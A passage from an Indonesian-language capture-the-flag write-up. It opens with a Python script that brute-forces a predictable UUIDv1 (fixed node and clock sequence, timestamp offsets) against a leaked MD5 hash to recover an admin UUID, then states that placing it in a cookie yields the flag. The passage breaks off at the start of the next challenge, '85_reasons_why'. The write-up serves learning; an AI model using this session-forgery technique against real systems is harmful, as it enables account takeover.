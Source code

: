 ```python
    info.hash = re.findall(r"(?<=<tr><td>).*?(?=</td></tr>)", res.text)[49]
    return info


def compare_uuid(count, info=get_info()):
    script = """
    const uuid = require('uuid');
    const crypto = require('crypto')

    function randomUUID() {
        return uuid.v1({
            'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69],
            'clockseq': 0b10101001100100,
            "msecs": Date.parse("%s")+%d
        });
    }
    console.log(randomUUID())
    """ % (info.date, count)

    uuid = check_output(['node', '-e', script]).decode().strip()
    md5 = hashlib.md5()
    md5.update(("admin"+uuid).encode())
    if md5.hexdigest() == info.hash:
        print("admin uuid: "+uuid)
        return
    print(md5.hexdigest(), info.hash, uuid, info.uuid)
    compare_uuid(count+1)


compare_uuid(0)
```

Setelah dijalankan maka akan menghasilkan UUID admin seperti berikut:

![](https://i.imgur.com/dYD8Yaf.png)

Kita masukkan ke dalam cookie, dan kita akan mendapatkan flagnya.

![](https://i.imgur.com/sWa4R1x.png)

## 85_reasons_why

### Description

If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!

85-reasons-why.lac.tf

### How to solve
#### TL;DR
